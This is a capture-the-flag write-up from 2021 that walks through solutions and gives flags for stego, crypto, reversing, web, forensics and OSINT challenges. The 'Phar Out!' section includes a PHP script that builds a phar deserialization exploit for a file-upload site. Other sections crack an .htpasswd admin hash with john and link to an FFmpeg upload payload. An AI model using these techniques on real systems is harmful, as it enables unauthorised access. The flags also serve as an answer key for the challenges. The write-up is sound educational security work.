



<!-- Lukas Baranov 2021 -->
<!-- https://github.com/prospektai -->

<!-- Vykintas Valužis 2021 -->
<!-- https://github.com/vykintazo -->

# Pwn

### :(

# Stego

## Easy Stego 25
An image is provided, and you can differentiate the three coloured pieces of the flag by using gimp.

Flag: `flag{Bl4ck_liv3S_MATTER}`

---
## Hackerman 25
An svg file is provided, and no flag is seen upon inital inspection. You can find the flag by running it against `strings` anf grepping for `flag`

Flag: `flag{m1cr0dot}`

---
## Weird transmission 175
This required decoding an SSTV Scottie1 signal from the Discord voice chat. I recorded the transmission and tried to decode it, but couldn't get it to work. So I used the Robot36 app from the play store and held up my headphones to transmit the signal. Profit.



Flag: `flag{Noah_th3_s4vi0ur}`

---
## Numerological 100
The challenge provided an image and a cryptic name 'Numerological. Looking it up on google, it seemed like this challenge will be connected to number systems. The image was searched thoroughly for any exif data or additional hidden data, but none was found.

Uploading it to google images output 'Cistercians', and because the challenge mentioned monks, I was on the right track. Googling `cistercian numerology` yielded information about the Cistercian Numeral system. After looking at the initial image closer with `foremost`, another image was found and extracted.


Decoding the numbers yielded this string of decimal numbers - `3637 3639 3734 3265 3639 3666 3266 3461 3734 3461 3631 3538`, which can then be stripped of spaces and input into CyberChef to be decoded. After visiting the decoded link `git.io/JtJaX`, we get the flag. Great challenge :).

Flag: `flag{th0s3_m0nk5_w3r3_cl3v3r}`

---
## A3S Turtles 250
A turtles128.zip file is provided. Looking inside,the contents seem password-protected, but by using the https://www.lostmypass.com/file-types/zip/ website a password is retrieved - '0'

The second zip is then extracted, also protected with a password. Again, it is uploaded to the site and we get a '0' as the password.

You can quickly notice the linear nature of the challenge at hand and write or download a zip-cracker, which allows automation of this process. Once the last zip file is extracted, we get a file named `key.png`.

After a long while of thinking, we figured out that the biggest hint was the name - A3S = AES, get it? By using the concatenated bits of each of the zip file passwords

Flag: `flag{steg0_a3s}`

# Reverse engineering

## The only tool you'll ever need 25
Download the a.out file and run `strings a.out` in a terminal. The flag can then be found by using grep or just as easily just by scrolling

Flag: `flag{str1ngs_FTW}`

---
## Pwntown 1 200
The challenge asked for the player to run a certain length in less than 5 seconds. I tried searching for the x/y position of the player so I could teleport, but upon trying the race without any mods I found the flag. ¯\\\_(ツ)_\/¯

Flag: `flag{th3_amazinng_r4c3}`

---
## Pwntown 2 200


---
# Crypto

## Classic Crypto 50
We are given a mangled text, which we have to make sense of. After a bit of guessing, I determined that they used the Vigenere cipher, and deciphered the text using an online solver, I used [this one](https://www.guballa.de/vigenere-solver_). Nothing learned.

Flag: `flag{classicvigenere}`

---

## Easy Peasy 50
A jumbled line of text is given, which appears to be base64. Upon decoding we get a hex string, which when decoded looks like the flag - `synt{pbatengf_lbh_tbg_zr}`.

Guessing that this is a ROT13 cipher, I input it into [rot13.com](https://rot13.com) and get the flag. Nothing learned. 

Flag: `flag{congrats_you_got_me}`

---

# Code

## Emulator ??

```python
class Register:
    def __init__(self):
        self.string = None

    def set(self, string):
        self.string = string

    def get(self):
        return self.string

    def __str__(self):
        return self.get()


"""
Operand order:
OPERAND DESTINATION SOURCE
"""


def XOR(dest, src):
    """
    XORs dest string against src string
    :param dest: always a register
    :param src: register or string literal
    :return:
    """
    lst = list(str(dest))
    x = [chr(ord(a) ^ ord(b)) for a, b in zip(str(dest), str(src))]
    lst[0:len(x)] = x
    dest.set("".join(lst))


def MOV(dest, src):
    dest.set(str(src))


def REVERSE(dest):
    dest.set(str(dest)[::-1])


TRX = Register()
DRX = Register()

with open("Crypto.asm") as program:
    TRX.set("GED\x03hG\x15&Ka =;\x0c\x1a31o*5M")
    for line in program:
        op, *args = line.strip().split(" ")
        exec(f"{op}({','.join(args)})")

print(f"TRX={str(TRX)} DRX={str(DRX)}")
```

## Parsey McParser ???

```python
import re
'''
:param blob: blob of data to parse through (string)
:param group_name: A single Group name ("Green", "Red", or "Yellow",etc...)

:return: A list of all user names that are part of a given Group
'''


def ParseNamesByGroup(blob, group_name):
    res = []
    blob_pattern = re.compile(r"\[.+?\]")
    fragments = blob_pattern.findall(blob)
    for fragment in fragments:
        repl = fragment.replace("[", "{").replace("]", "}")
        d = eval(repl)
        if d["Group"] == group_name:
            res.append(d["user_name"])
    return res


data = 'Black|+++,Bellhomes LLC.,["age":39, "user_name":"Reid Jolley", "Group":"Black"],+++,Greek Ideas,["age":63, ' \
       '"user_name":"Lucius Chadwell", "Group":"Green"],["age":63, "user_name":"Cary Rizzuto", "Group":"Black"],' \
       '["age":28, "user_name":"Shoshana Bickett", "Group":"Yellow"],["age":69, "user_name":"Madeleine Swallow", ' \
       '"Group":"Green"],["age":41, "user_name":"Buddy Etter", "Group":"Black"],+++,God fire,["age":26, ' \
       '"user_name":"Carlene Caulder", "Group":"Green"],["age":43, "user_name":"Napoleon Peay", "Group":"Purple"],' \
       '["age":44, "user_name":"Noemi Constant", "Group":"Green"] '
group_name = data.split('|')[0]
blob = data.split('|')[1]
result_names_list = ParseNamesByGroup(blob, group_name)
print(result_names_list)
```

---

## Phar Out! 125
As the name suggests, this challenge has something to do with well known vulnerability related with PHP object deserialisation through phar (PHP Archive) stream wrapper.
We are given the source code of the website and after examining it, the solution becomes quite clear:
1. Website lets you to upload anything and computes MD5 for it. When computing, it accesses upload throuh file:// stream wrapper *unless you set s parameter to p*. In that case it uses phar:// and that's what we want. Also note that index.php has include("wrapper.php");
2. After looking into two other files, it is clear that we want Doit() object to be created, because that would cause flag to be printed.
3. We create an instance of Wrapper() class and set it's private variable through reflection to something. Then we add this instance to minimal phar file which then gets uploaded to the site together with request's parameter s set to p. And we get the flag.

```php
<?php
include("wrapper.php");

$phar = new Phar('exploit.phar');

// add a dummy file to stay within phar specifications
$phar->addFromString("test.txt", "test");

$wrapperObj = new Wrapper();

// Set private variable
$reflection = new \ReflectionProperty(get_class($wrapperObj), 'doit');
$reflection->setAccessible(true);
$reflection->setValue($wrapperObj, 'value');

// add our object
$phar->setMetadata($wrapperObj);
?> 
```

## Is the king in check? 200
The solution is too long, so it can be found here -> [solution](https://gist.github.com/vykintazo/b2f30db19ef38e261308d831b31496f3)

---

## Random encryption 100
The challenge required analysing the code and reversing it in such a way, that we can reconstruct the input flag. However, the flag is shown in plaintext at the very start of the file. Poor luck.

Flag: `flag{n0t_that_r4ndom}`

---
## Random Encryption Fixed 100
Same as the previous challenge, but the flag is now not shown.

# Vidya

## Play me 200
A gameboy file is given, which can be loaded into an emulator. The category is 'vidya', but I tried reverse engineering the game in various ways at first, as well as seaching the memory and ROM for traces of the flag.

After a lot of trial, in the end I discovered that the second button allows the character to sprint, and sprint-jumping into the wall shows you the flag. :)

Flag: `flag{pixels}`

# Web app

## Protected directory 50
We must find a protected directory and find the flag after accessing it. After a quick assesment, we tried the most common web server filed (.htpasswd, htaccess, etc.). .htpasswd was displayed, and after cracking the admin hash with `john` we were able to get the password `alesh16` and login.



Flag: `flag{cracked_the_password}`

---

## Thumbnail 100

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS

TODO: EXPAND WRITEUP

---
# Misc

## Quit messing with my flags 25
The flag got jumbled, and you must restore it to submit. This is the provided value - `161EBD7D45089B3446EE4E0D86DBCF92`. Looking at it, all of the characters are one-cased and the letters used range from A-F. Making an educated guess that this is a hash, we can upload it to crackstation.com and get the flag.

Flag: `flag{P@ssw0rd}`

# Tenable

## The ultimate mutant marvel team-up 25
By exporting the scan report for `172.26.48.53` to .nessus format, we can easily grep for flag and find it.

Flag: `flag{1t's eXt3n51bl3}`

---
## Knowledge is knowing a tomato is a fruit 25
After downloading the KB from `Linux Scan / 172.26.48.53` we can search for `flag` and find it at the bottom of the file

Flag: `flag{bu7 n07 putt1ng 1t 1n 4 fru17 s@l4d, th@t5 W1SD0M}`

---
# Forensics

## H4ck3R_m4n exp0sed! 1 25
We get a wireshark packet capture, and we must hidden data within it. On opening it, we can notice that FTP was being used, and a file was transmitted in plaintext (`supersecure.7z`). 

We can save this file by clicking on the `FTP-FILE` packet, going to `Follow > TCP Stream`. Then select the display mode as `Raw`, and click `Save as...`. This will save the archive. It's also password protected, but we can find the password in another file called `compression_info.txt` (bbqsauce).

The flag for this challenge is in the `butter.jpg` file, which can be saved in an analogous manner. Upon opening, the flag is displayed.

Flag: `flag{u_p4ss_butt3r}`

---
## H4ck3R_m4n exp0sed! 2 25
One of the files in the `supersecret.7z` archive was `pickle_nick.png`, which contains a pickle with a man's head on it (presumably Nick?). The flag is displayed at the bottom.

Flag: `flag{pickl3_NIIICK}`

---
## H4ck3R_m4n exp0sed! 3 50
The file `dataz` contains what appear to be hex-encoded printable ascii values, so they are decoded to ascii. The decoded result looks to be base64, so it is decoded once more to ascii, which yields a jpeg header. The base64 is then decoded to an image and the flag can be seen.

Flag: `flag{20_minute_adventure}`

<sub>*Note: there was no indication that this flag was for the second challenge, had to ask admins</sub>

Flag: `flag{pickl3_NIIICK}`

---
## Cat Taps 100
We are provided with a Wireshark usb traffic capture file, from which we have to get the flag. Looking at the packets we can identify that the majority of them have a field: `HIDData`. By extracting these fields from the file with tshark and following a similar writeup, we can modify the provided script and decode to get the flag!

Flag: `I actually forgot what the flag was will uplaod later`

---
## Fix Me 100
A corrupted png file is given, and we must read it to get the flag. Opening it, we can see that windows doesn't recognise it as a valid file. Uploading it to web-based fixing services also doesn't produce anything.

By opening the file with a hex-editor and consulting with a [wikipedia page](https://en.wikipedia.org/wiki/Portable_Network_Graphics) on the png format, we can successfully find malformed header data and fix it to restore a half-readable image. It's really garbled, but with enough guessing and intuition we can find the flag.



Flag: `flag{hands_off_my_png}`

---
# OSINT

## We're watching you 75
A simple OSINT challenge, the flag can be found by googling `peekaboo tenable flag`. Additional search parameters can also be used to narrow it down.

Flag: `flag{i_s33_y0u}`